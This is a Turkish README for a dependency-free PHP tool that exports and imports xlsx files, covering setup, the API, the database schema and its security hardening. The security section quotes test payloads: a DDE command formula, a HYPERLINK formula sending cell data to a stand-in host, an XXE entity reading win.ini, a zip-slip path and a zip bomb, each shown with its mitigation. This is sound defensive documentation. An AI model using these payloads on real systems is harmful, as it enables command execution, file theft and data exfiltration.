



<div align="center">


# Excel Dışa / İçe Aktarma

**Sıfır bağımlılıklı** PHP ile gerçek `.xlsx` üretme ve okuma.
Composer yok, PhpSpreadsheet yok, `vendor/` klasörü yok.

Önizlemeli toplu yükleme · Satır satır doğrulama · Transaction güvenliği
Mobil öncelikli kart görünümü · Koyu tema

**v1.1.0** · [cilginyazilim.com](https://cilginyazilim.com) · MIT Lisansı · [🇬🇧 English](README.en.md)

📚 **[Örnek Kod Kütüphanesi](https://cilginyazilim.com/kutuphane)** ·
📘 **[Bu örneğin anlatım sayfası](https://cilginyazilim.com/kutuphane/excel-ice-disa-aktarma)**


[**▶ Canlı Demo**](https://cilginyazilim.com/kutuphane/uygulama/excel-import-export/) · [Kaynak Kütüphanesi](https://cilginyazilim.com/kutuphane/excel-ice-disa-aktarma) · [cilginyazilim.com](https://cilginyazilim.com)

</div>

<div align="center">

## Canlı Demo

**Kurulum yok, kayıt yok, indirme yok — tarayıcınızdan 3 saniyede deneyin.**

<a href="https://cilginyazilim.com/kutuphane/uygulama/excel-import-export/"></a>
<a href="https://cilginyazilim.com/kutuphane/excel-ice-disa-aktarma"></a>
<a href="https://github.com/CilginYazilim/excel-import-export/archive/refs/heads/main.zip"></a>

<br><br>

<a href="https://cilginyazilim.com/kutuphane/uygulama/excel-import-export/" title="Canlı demoyu açmak için tıklayın">
  
</a>

<sub>▲ Görsele tıklayarak demoyu açabilirsiniz</sub>

</div>

> **Gerçek bir .xlsx indirin, düzenleyin, geri yükleyin — Composer ve PhpSpreadsheet olmadan.**

---

## Bu proje ne yapıyor?

İki yönlü bir Excel köprüsü:

| Yön | Ne yapar |
|-----|----------|
| **Dışa aktarma** | Veritabanındaki kayıtları biçimlendirilmiş `.xlsx` olarak indirir. Başlık satırı dondurulmuş, filtre okları açık, tarihler gerçek tarih, maaşlar gerçek sayı olarak gelir. Ekranda arama yapılmışsa yalnızca filtrelenen kayıtlar aktarılır. |
| **İçe aktarma** | Yüklenen `.xlsx` okunur, her satır doğrulanır ve **kaydetmeden önce** size gösterilir. Onaylarsanız tek bir transaction içinde yazılır. |

Ek olarak **şablon indirme**: doğru başlıklara sahip, iki örnek satır içeren boş bir dosya. Hatalı yüklemelerin büyük kısmı daha başlamadan biter.

### İçe aktarma önizlemesi

Kaydetmeden önce her satırın ne olacağını görürsünüz — hangisi yeni, hangisi güncellenecek, hangisi zaten aynı, hangisi hatalı ve **neden** hatalı:



### Telefonda

Dokuz sütunluk tablo dar ekranda **karta dönüşür**; sütun başlıkları her değerin soluna etiket olarak taşınır. Yatay kaydırma yoktur — bütün alanlar ilk bakışta görünür:

<div align="center">



</div>

---

## Sıfır bağımlılık nasıl çalışıyor? (projenin en öğretici yanı)

`.xlsx` sihirli bir ikili format **değildir** — ZIP'lenmiş XML dosyalarıdır. Herhangi bir Excel dosyasının uzantısını `.zip` yapıp açın, içinde şunları görürsünüz:

```
[Content_Types].xml          → paketteki her parça ne türdür
_rels/.rels                  → paketin ana parçası hangisidir
xl/workbook.xml              → sayfa listesi
xl/_rels/workbook.xml.rels   → sheet1 hangi dosyada duruyor
xl/styles.xml                → yazı tipi, dolgu, sayı biçimleri
xl/worksheets/sheet1.xml     → ASIL VERİ (satırlar ve hücreler)
```

`XlsxWriter` tam olarak bu altı dosyayı üretip `ZipArchive` ile paketler. `XlsxReader` ise paketi açıp `XMLReader` ile geri okur. Gereken tek şey PHP'nin yerleşik `zip`, `xml` ve `mbstring` eklentileridir (XAMPP'ta hazır gelir).

Tek bir hücre, dosyanın içinde şuna benzer:

```xml
<c r="B2" s="2" t="inlineStr"><is><t>Evren</t></is></c>
```

`r` hücre adresi, `s` stil numarası, `t` hücre türü. Metinleri `sharedStrings.xml` havuzu yerine `inlineStr` ile hücrenin içine yazıyoruz: dosya biraz büyür ama kod çok daha anlaşılır olur. Bu örnek için doğru takas.

**Ne zaman PhpSpreadsheet'e geçmelisiniz?** Formül, grafik, çoklu sayfa, hücre birleştirme veya `.xls`/`.ods` desteği gerekiyorsa. Buradaki sınıfların amacı **veri alışverişidir**, rapor tasarımı değil.

---

## Çözülen dört klasik tuzak

Excel okuyan kodların neredeyse tamamı bunlardan en az birinde takılır:

**1. Tarihler metin değil, sayıdır.**
`15.08.2026` hücrede `46249` olarak durur. Bir sayının tarih mi yoksa gerçekten sayı mı olduğu ancak **hücrenin stiline** bakılarak anlaşılır. `XlsxReader`, `styles.xml` içindeki sayı biçimlerini çözümleyip "hangi stil tarih gösteriyor" listesini çıkarır. Excel'in ünlü 1900 artık yıl hatası da telafi edilir (başlangıç 30 Aralık 1899 kabul edilerek).

**2. Boş hücreler dosyada hiç yazmaz.**
B sütunu boşsa `<c r="B2">` etiketi **bulunmaz**; satır A'dan C'ye atlar. Hücreleri sırayla okursanız sütunlar kayar. Çözüm: her hücrenin `r` özniteliğindeki adrese (`C7`) bakıp sütun numarasını hesaplamak.

**3. Metinler hücrede durmaz.**
Excel tekrar eden metinleri `sharedStrings.xml` havuzunda tutar; hücrede yalnızca havuz sıra numarası yazar. Ayrıca bir kelimenin bir kısmı kalınsa metin `<r>` parçalarına bölünür ve tek `<t>` okumak yetmez.

**4. Sayfanın adı `sheet1.xml` olmak zorunda değildir.**
Google Sheets ve LibreOffice farklı adlar üretir. Doğru yol: `workbook.xml`'deki ilk sayfanın `r:id`'sini alıp `workbook.xml.rels` içinde hedefini bulmak.

---

## Kurulum

```bash
# 1. Dosyaları web köküne koyun
cd C:/xampp/htdocs
git clone https://github.com/CilginYazilim/excel-import-export.git

# 2. Veritabanını içe aktarın (cy_excel şemasını kendi oluşturur)
mysql -u root -p < excel-import-export/cy_excel.sql
```

> **İsteğe bağlı — kendi veritabanı bilgileriniz:**
> `cp .env.example .env` (Windows: `copy .env.example .env`) deyip `DB_*`
> satırlarını doldurun. Bu dosya olmadan da çalışır; varsayılanlar yerel bir
> XAMPP kurulumuna (`root`, boş parola) göredir. `.env` `.gitignore`
> içindedir — parolanız depoya gitmez.

Ardından: `http://localhost/excel-import-export/`

### Veritabanı bilgilerini nereye yazmalı?

Dört yol vardır; uygulama hepsini şu **öncelik sırasıyla** okur:

| Öncelik | Yer | Ne zaman |
|---------|-----|----------|
| 1 | `system/config.local.php` | Depoya girmez, canlıya alma işlemi silmez |
| 2 | Depo kökündeki `.env` | **En kısa yol.** Aynı korumaya sahiptir, tek satırda kurulur |
| 3 | Ortam değişkenleri (`DB_HOST`, `DB_NAME`, `DB_USER`, `DB_PASS`) | Docker / CI / platform tabanlı barındırma |
| 4 | `system/config.php` içindeki varsayılanlar | Yalnızca yerel XAMPP denemesi (root / boş şifre) |

En kısa yol tek adımdır:

```bash
cp .env.example .env        # Windows: copy .env.example .env
# ardından kopyadaki DB_* satırlarını doldurun
```

`config.local.php` yolunu tercih ederseniz:

```bash
cp system/config.local.php.example system/config.local.php
# ardından kopyadaki dört DB_* satırını doldurun
```

`config.local.php` `.gitignore` içindedir: parolanız asla depoya gitmez. `system/.htaccess` de o dosyanın tarayıcıdan istenmesini engeller — PHP yorumlayıcısı bir gün devre dışı kalırsa dosya düz metin olarak servis edilmesin diye.

**Canlıya alırken:** `APP_DEBUG` değerini `false` yapın. `config.local.php` içine `define('APP_DEBUG', false);` yazmanız yeterlidir; `config.php` dosyasına dokunmanız gerekmez.

**Gereksinimler:** PHP 8.1+ (`zip`, `xml`, `mbstring`, `gd` eklentileri) · MySQL 5.7+ / MariaDB 10.3+ · Modern bir tarayıcı (CSS `:has`, `env()` ve `flex` kullanılır)

### Ortam değişkenleri

Depo kökündeki **`.env`** dosyasına yazın; `system/config.php` dosyasına
hiç dokunmayın:

```bash
cp .env.example .env        # Windows: copy .env.example .env
```

`.env` `.gitignore` içindedir: depoya gönderilmez ve dağıtım (deploy) onu
**silmez**. `system/config.php` ise depoda durur ve her dağıtımda depodaki
sürümle değiştirilir — parolayı oraya yazarsanız hem GitHub'a gider hem de
ilk deploy'da kaybolur.

Dosyayı hiç oluşturmasanız da uygulama çalışır; aşağıdaki varsayılanlar
yerel bir XAMPP kurulumuna göredir.

**Değer arama sırası:** `.env` → sunucunun gerçek ortam değişkeni
(Apache `SetEnv`, systemd…) → buradaki varsayılan.

| Değişken | Varsayılan | Ne işe yarar |
|---|---|---|
| `DB_HOST` | `127.0.0.1` | Veritabanı sunucusu |
| `DB_NAME` | `cy_excel` | Veritabanı adı |
| `DB_USER` | `root` | Kullanıcı |
| `DB_PASS` | *(boş)* | Şifre — **koda yazmayın** |
| `APP_TIMEZONE` | `Europe/Istanbul` | PHP'nin saat dilimi |
| `APP_DEBUG` | *ortamdan* | Hataların ekrana basılıp basılmayacağı |

**`APP_TIMEZONE` neden var?** XAMPP'ın `php.ini` dosyasındaki
`date.timezone`, MySQL'in kullandığı sistem diliminden farklı olabilir.
Test makinesinde PHP `Europe/Berlin`, MySQL `Europe/Istanbul`
kullanıyordu; aynı anı anlatan iki satır bir saat farklı görünüyordu.
Zaman **hesapları** SQL tarafında yapıldığı için doğruydu, ama ekrana
basılan saat kayıyordu. Artık dilim açıkça sabitleniyor — sunucunuz başka
bir bölgedeyse bu değişkeni tanımlamanız yeterli, koda dokunmayın.


---

## Hangi dosya ne işe yarıyor?

```
excel-import-export/
├── index.php                        ← Sayfa iskeleti
├── .env.example                     ← Veritabanı bilgileri (isteğe bağlı) — .gitignore içinde
├── cy_excel.sql                     ← Veritabanı kurulumu (cy_excel şeması + 50 örnek kayıt)
├── system/
│   ├── .htaccess                    ← BEYAZ LİSTE: yalnızca ajax.php ve export.php dışarı açık
│   ├── config.php                   ← Ayarlar + PDO bağlantısı + oturum + APP_VERSION
│   ├── config.local.php.example     ← Kopyalanacak şablon (parola buraya YAZILMAZ)
│   ├── function.php                 ← Yardımcılar, doğrulayıcılar, SÜTUN TANIMLARI
│   ├── ajax.php                     ← JSON uç noktası (CRUD + önizleme + kaydet)
│   ├── export.php                   ← Dosya indiren uç nokta
│   ├── views/                       ← Modal pencereler (parça şablonlar)
│   │   ├── .htaccess                ← Doğrudan çağrıyı engeller
│   │   ├── modal-user.php           ← Ekleme / düzenleme formu
│   │   ├── modal-detail.php         ← Kayıt detayı
│   │   ├── modal-delete.php         ← Silme onayı
│   │   └── modal-import.php         ← İçe aktarma sihirbazı
│   └── Excel/
│       ├── XlsxWriter.php           ← ZipArchive ile .xlsx üretir
│       └── XlsxReader.php           ← XMLReader ile .xlsx okur
├── assets/
│   ├── css/cilginyazilim.css        ← Marka tasarım kalıbı (ortak, koyu tema dahil)
│   ├── css/style.css                ← Bu sayfaya özel stiller + MOBİL DÜZEN
│   └── js/app.js                    ← Tüm arayüz davranışı + tema anahtarı
└── upload/                          ← Profil görselleri (.htaccess ile korumalı)
```

### Öne çıkan fonksiyonlar

| Fonksiyon | Dosya | Ne yapar |
|-----------|-------|----------|
| `excel_columns()` | function.php | **Tek doğruluk kaynağı.** Hangi sütun, hangi başlıkla, hangi türde, zorunlu mu — hepsi burada |
| `excel_header_aliases()` | function.php | `E-Posta`, `eposta`, `mail`, `E-POSTA ADRESİ` → hepsi `email` alanına eşlenir |
| `normalize_header()` | function.php | Başlığı sadeleştirir: Türkçe harfleri ASCII'ye indirir, boşluk/tire/parantez atar |
| `validate_maas()` | function.php | `92.500,75`, `92500.75`, `92.500,75 ₺` — üçünü de kabul eder |
| `user_row_changed()` | function.php | Satır gerçekten değişti mi? Değişmediyse `UPDATE` hiç çalıştırılmaz |
| `find_existing_users()` | ajax.php | N+1 sorgu problemini çözer: 500'erlik gruplar hâlinde tek sorgu |
| `needsFormulaGuard()` | XlsxWriter.php | Formül enjeksiyonuna karşı `quotePrefix` koruması (aşağıda) |

### Yeni bir sütun eklemek

Sütun tanımları tek yerdedir: `system/function.php` içindeki `excel_columns()`. Üç adım:

1. `cy_excel.sql` dosyasına sütunu ekleyin
2. `excel_columns()` dizisine bir satır ekleyin
3. `validate_import_row()` içine doğrulamasını yazın

Dışa aktarma, şablon, başlık eşleştirme ve önizleme tablosu bu tanımı okuduğu için gerisi kendiliğinden çalışır.

---

## İçe aktarma nasıl çalışıyor?

```
Dosya seç
   ↓
[1] import_preview  ── veritabanına HİÇBİR ŞEY yazmaz
   │   · dosya gerçekten geçerli bir xlsx paketi mi?
   │   · satır sayısı sınırı aşıyor mu? (aşıyorsa REDDEDİLİR, kırpılmaz)
   │   · başlıklar alan adlarıyla eşleşiyor mu?
   │   · her satır tek tek doğrulanır
   │   · her satır MEVCUT kayıtla karşılaştırılır:
   │       eklenecek mi / güncellenecek mi / değişiklik yok mu?
   │   · yazılacak satırlar OTURUMDA saklanır
   ↓
Önizleme tablosu: yeşil = yeni, mavi = güncelleme,
                  gri = değişiklik yok, kırmızı = hatalı
   ↓
[2] import_commit  ── tek transaction, hepsi ya da hiçbiri
```

**Başlıklar esnektir.** Sütun sırası önemli değildir; başlık metnine bakılır. `E-Posta`, `eposta`, `mail`, `E-POSTA ADRESİ` — hepsi tanınır. Tanınmayan sütunlar (`#`, `Kayıt Tarihi`, `Notlar`) sessizce yok sayılır. Böylece dışa aktardığınız dosyayı düzenleyip doğrudan geri yükleyebilirsiniz.

**Anahtar e-postadır.** Aynı e-postaya sahip kayıt varsa güncellenir, yoksa eklenir. Güncellemede **profil görseline ve kayıt tarihine dokunulmaz** — Excel'de bu bilgiler yoktur, bir içe aktarma yüzünden kaybolmaları kabul edilemez.

**Değişmemiş satırlar sessizce atlanır.** Bir satırın tüm alanları veritabanındakiyle birebir aynıysa "güncellenecek" diye işaretlenmez ve `UPDATE` sorgusu hiç çalıştırılmaz.

**Türkçe biçimler kabul edilir.** `105.000,50` ve `105000.50` aynı sayıdır; `04.03.2019` ve `2019-03-04` aynı tarihtir. `31.02.2019` gibi var olmayan tarihler reddedilir.

### Sütunlar

| Sütun | Zorunlu | Not |
|-------|---------|-----|
| Ad | ✔ | En az 2 karakter, yalnızca harf |
| Soyad | ✔ | |
| E-posta | ✔ | Benzersiz olmalı; içe aktarmanın anahtarıdır |
| Departman | | Boş bırakılabilir |
| Maaş | | Boş bırakılabilir |
| Başlama Tarihi | | Boş bırakılabilir |

---

## API uç noktaları

Hepsi **POST** kabul eder ve **CSRF anahtarı** ister (`csrf_token` alanı veya `X-CSRF-Token` başlığı).

### `system/ajax.php` — JSON döndürür

| `action` | Parametreler | Döndürür |
|----------|--------------|----------|
| `list` | DataTables protokolü (`draw`, `start`, `length`, `order`, `search`) | `{draw, recordsTotal, recordsFiltered, data[]}` |
| `fetch` | `id` | Tek kaydın ham + biçimlenmiş alanları |
| `add` | `name`, `surname`, `email`, `departman`, `maas`, `baslama_tarihi`, `image_user` | `{success, description, id}` |
| `edit` | `user_id` + yukarıdakiler | `{success, description, id}` |
| `delete` | `id` | `{success, description, id}` |
| `import_preview` | `import_file` (dosya) | `{token, columns, fields, rows[], summary}` |
| `import_commit` | `token` | `{success, description, inserted, updated, skipped}` |

### `system/export.php` — dosya döndürür

| Parametre | Değer | Sonuç |
|-----------|-------|-------|
| `export` | `data` | Kayıtlar `.xlsx` olarak iner (`search` verilirse filtreli) |
| `export` | `template` | Boş şablon iner |

### HTTP durum kodları

| Kod | Anlamı |
|-----|--------|
| `200` | Başarılı |
| `400` | Geçersiz istek (hatalı ID gibi) |
| `403` | CSRF anahtarı geçersiz / oturum düştü |
| `404` | Kayıt bulunamadı |
| `405` | POST dışı istek |
| `422` | Doğrulama hatası (form alanı veya geçersiz dosya) |
| `500` | Sunucu hatası |

> **Neden 419 yok?** "419 Page Expired" standart olmayan bir koddur. Bu kurulumda ölçtük: Apache tanımadığı 419'u sessizce **500**'e çeviriyordu; yani "oturumun düştü" demek isterken tarayıcıya "sunucu çöktü" diyorduk. Doğru karşılık `403`'tür.

---

## Veritabanı şeması

`cy_excel` veritabanı, tek tablo:

```sql
CREATE TABLE `users` (
  `id`             INT UNSIGNED NOT NULL AUTO_INCREMENT,
  `name`           VARCHAR(150) NOT NULL,
  `surname`        VARCHAR(150) NOT NULL,
  `email`          VARCHAR(190) NOT NULL,      -- içe aktarmanın ANAHTARI
  `departman`      VARCHAR(100) NOT NULL DEFAULT '',
  `maas`           DECIMAL(10,2) DEFAULT NULL, -- FLOAT DEĞİL: para için DECIMAL
  `baslama_tarihi` DATE DEFAULT NULL,
  `image`          VARCHAR(191) NOT NULL DEFAULT '',
  `tarih`          TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
  PRIMARY KEY (`id`),
  UNIQUE KEY `uniq_users_email` (`email`),
  KEY `idx_users_name` (`name`),
  KEY `idx_users_surname` (`surname`),
  KEY `idx_users_departman` (`departman`),
  KEY `idx_users_tarih` (`tarih`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_unicode_ci;
```

Üç karar, üç gerekçe:

- **`DECIMAL(10,2)`, `FLOAT` değil.** İkili kayan noktalı sayı `0.1 + 0.2 = 0.30000000000000004` üretir ve muhasebe kayıtlarını bozar.
- **`email` üzerinde `UNIQUE`.** "Varsa güncelle, yoksa ekle" davranışının dayandığı kural budur. 190 karakter sınırı utf8mb4 + InnoDB indeks bayt limiti yüzündendir (190 × 4 = 760 bayt).
- **`image` alanı örnek veride boştur.** Depoda örnek görsel yok; dosya adı yazsaydık her yeni kurulumda "veritabanı fotoğraf var diyor ama disk boş" tutarsızlığı çıkardı. Boşken uygulama baş harf rozeti gösterir.

---

## Güvenlik katmanları ve **neden** oradalar

Her madde ölçülerek doğrulanmıştır; ölçüm sonucu yazılıdır.

### Excel formül enjeksiyonu (`quotePrefix`)

Bir hücreye `=cmd|'/c calc'!A0` ya da `=HYPERLINK("http://x/?"&A1,"tıkla")` yazılırsa ne olur?

**Ölçüm:** Bu değeri içe aktarma ile `Departman` alanına yazdık, dışa aktardık ve üretilen paketi açıp inceledik. Hücre şöyle yazılıyordu:

```xml
<c r="E52" s="2" t="inlineStr"><is><t>=cmd|&apos;/c calc&apos;!A0</t></is></c>
```

Yani `t="inlineStr"` — **metin** hücresi. Dosyada hiç `<f>` (formül) etiketi yok. Bir `.xlsx` hücresi ancak `<f>` varsa formüldür; dolayısıyla **dosya Excel'de açıldığında formül çalışmaz.** CSV'deki klasik "dosyayı açtım, komut çalıştı" senaryosu burada yoktur.

**Peki neden yine de koruma eklendi?** Çünkü metin hâlâ formül söz dizimindedir ve Excel bir hücrenin içeriğini *yeniden girildiğinde* baştan yorumlar. Üç sıradan davranış onu canlı formüle çevirir: hücreye çift tıklayıp Enter'lamak, sütunu kopyalayıp yapıştırmak, veriyi ileride CSV olarak dışa aktarmak (CSV'de `<f>` ayrımı yoktur).

**Çözüm:** `=`, `+`, `-`, `@`, sekme veya satır başı ile başlayan metin hücrelerine OOXML'in `quotePrefix="1"` stili verilir. Bu Excel'e "kullanıcı bu değeri baştan metin olarak girdi" der.

Yaygın tavsiye olan "başına tek tırnak ekle" yöntemi **bilerek kullanılmadı**: `.xlsx`'te apostrof hücre metninin parçası değil, arayüzün gösterim kuralıdır. Gerçek bir apostrof yazsaydık kullanıcı hücrede `'=cmd...` görürdü — yani veriyi bozardık.

**Meşru veri bozulmuyor** (ölçüldü): `-1250.75` ve `+90 555 111 22 33` değerleri korumayla birlikte ekranda aynen görünür, yaz-oku turunda bayt bayt korunur. Para ve tarih sütunları zaten `money`/`date` türünden geçtiği için bu yola hiç girmez.

### XXE (harici varlık) saldırısı

**Ölçüm:** İçine `<!DOCTYPE x [ <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini"> ]>` gömülü iki ayrı `.xlsx` hazırladık — biri `sheet1.xml`, diğeri `sharedStrings.xml` üzerinden. Sonuç: birincisi "bozuk XML" diye reddedildi, ikincisinde varlık **boş metne** çözüldü. `win.ini` içeriği hiçbir yere sızmadı.

Koruma: `simplexml_load_string()` çağrısında `LIBXML_NONET` kullanılır ve `LIBXML_NOENT` **asla** eklenmez (o bayrak açığı geri açar). PHP 8'de dış varlık yükleme zaten varsayılan olarak kapalıdır; bu ikinci kilittir.

### Zip slip (`../` yollu arşiv)

**Ölçüm:** İçinde `../../../../xampp/htdocs/excel-import-export/upload/slipped.php` adlı bir girdi bulunan `.xlsx` hazırlayıp yükledik. Dosya diske **yazılmadı**.

Sebep tasarımsaldır: `XlsxReader` arşivi hiçbir zaman diske açmaz (`extractTo()` çağrısı yoktur). Yalnızca `getFromName()` ve `zip://` akışı kullanır — yani paket içindeki yol adları hiçbir zaman dosya sistemi yolu olarak yorumlanmaz.

### Zip bombası

Paket açılmadan önce arşivin bildirdiği toplam açılmış boyuta bakılır; sınırı aşan reddedilir.

**Ölçüm:** Sınır 64 MB iken, 169 KB'lık bir yükleme 55 MB'lık bir `sharedStrings.xml` açıyor ve PHP'nin tepe bellek kullanımını 88 MB'a çıkarıyordu — yaklaşık 500 kat büyüme. Ölümcül değildi ama gereksizdi: içe aktarma sınırı zaten 5 MB ve 2000 satır, gerçek bir 10.000 satırlık dosya ise yalnızca 313 KB. Sınır **24 MB**'a çekildi ve bomba dosyası artık `422` ile reddediliyor.

### Yükleme klasörü (`upload/.htaccess`)

**Ölçüm (önce):** `.php` ve `.phtml` istekleri `403` dönüyordu (iyi), **ama** `/upload/x.gif` ve `/upload/x.html` istekleri `200` dönüyor ve **tek bir güvenlik başlığı taşımıyordu**. İçine HTML/JS gömülmüş bir "görsel", tarayıcı MIME tahmini yaparsa sitenin kendi alan adında betik çalıştırabilirdi (depolanmış XSS).

**Sonra:** Aşağıdaki katmanlar eklendi ve tekrar ölçüldü.

| Katman | Neden |
|--------|-------|
| `<FilesMatch>` betik uzantısı reddi | Diğer katmanlar atlatılıp bir `.php` buraya yazılsa bile çalıştırılamaz. Liste uzun çünkü hangi uzantının o sunucuda yorumlandığını bilemeyiz |
| `php_flag engine off` (mod_php koşullu) | Yalnızca mod_php'de çalışır; PHP-FPM'de sessizce yok sayılır — bu yüzden tek başına yeterli sayılmaz |
| `Options -Indexes -ExecCGI` | Dosya adları rastgeledir; tek koruma URL'nin tahmin edilemezliğidir. Listeleme açıksa o koruma anlamsızlaşır |
| `X-Content-Type-Options: nosniff` | Tarayıcı "bu aslında HTML" diye tahmin edip görseli sayfa olarak çalıştırmasın |
| `Content-Security-Policy` (`sandbox`) | İkinci kemer: yanıt yine de HTML sayılırsa bile betik çalışmaz; `sandbox` belgeyi kaynaksız kum havuzuna alır, çerezlere erişemez |
| `X-Frame-Options: DENY` | Clickjacking ve görsel tabanlı oltalama |
| `Referrer-Policy: no-referrer` | Rastgele dosya adları dış sitelere referans olarak sızmasın |

**Doğrulama (sonra):** `.php`, `.PHP`, `.php5`, `.phtml`, `php.` ve `x.php/y.png` (path-info) istekleri **403**; meşru `.png` hâlâ **200 `image/png`** ve tüm güvenlik başlıklarını taşıyor.

### Diğer katmanlar

- **CSRF** — `list` dahil **veri döndüren her uç nokta** doğrulanır. (Önceden `list` korumasızdı; belge "her istek" derken kod aksini yapıyordu. Tarayıcı CORS yüzünden yanıtı zaten okuyamaz, yani sızıntı değildi — ama kuralın istisnası olmamalı.) Karşılaştırma `hash_equals()` ile sabit sürelidir.
- **Dosya türü içerikten doğrulanır** — Uzantı ve MIME yalnızca ön elemedir. Asıl kontrol: dosya gerçekten geçerli bir ZIP mi ve içinde `xl/workbook.xml` var mı? **Ölçüldü:** `.php` dosyası sahte `.xlsx` adı ve sahte MIME ile yüklendiğinde `422` ile reddedilir.
- **Görsel yükleme** — Tür `getimagesize()` ile içerikten doğrulanır; yeni ad ve uzantı **bizim** beyaz listemizden gelir, kullanıcının gönderdiği addan değil. Böylece `virus.php.png` diske o adla hiç yazılamaz. Ad `random_bytes(16)` ile rastgeledir.
- **Satır sınırı sessizce kırpmaz** — **Ölçülen hata:** 10.000 satırlık dosya, hiçbir uyarı vermeden 2000 satıra düşürülüyor ve kalan 8.000 satır sessizce kayboluyordu; üstelik kullanıcı yeşil "tamamlandı" mesajı görüyordu. Artık sınırın 1 fazlası okunup taşma tespit edilir ve dosya **reddedilir** — sessiz veri kaybı, açık bir hatadan çok daha kötüdür.
- **Transaction** — **Ölçüldü:** 500 satırlık bir içe aktarmanın ortasında veritabanı hatası tetiklendi; kayıt sayısı işlem öncesindeki değere (50) geri döndü, tek bir satır bile kalmadı.
- **Önizleme verisi sunucuda tutulur** — İstemciye gönderilip geri alınsaydı, doğrulamayı atlamak isteyen biri arada JSON'u düzenleyebilirdi.
- **Tek kullanımlık önizleme** — Kaydedilen parti oturumdan silinir; aynı önizleme ikinci kez onaylanamaz.
- **SQL Injection** — Her sorgu prepared statement kullanır. Sıralama sütunu bind edilemediği için beyaz listeden geçirilir.
- **XSS** — Sunucuda `e()` (htmlspecialchars), istemcide her hücre `.text()` ile doldurulur — asla `.html()`.
- **Parça şablonlar doğrudan çağrılamaz** — **Ölçülen sızıntı:** `system/views/*.php` doğrudan istendiğinde PHP uyarısı basıyor ve uyarı metninde sunucunun tam dosya yolu (`C:\xampp\htdocs\...`) görünüyordu. Artık hem `CY_APP` sabiti hem `views/.htaccess` engelliyor (`403`).

---

## Mobil düzen — tabloyu karta çevirmek

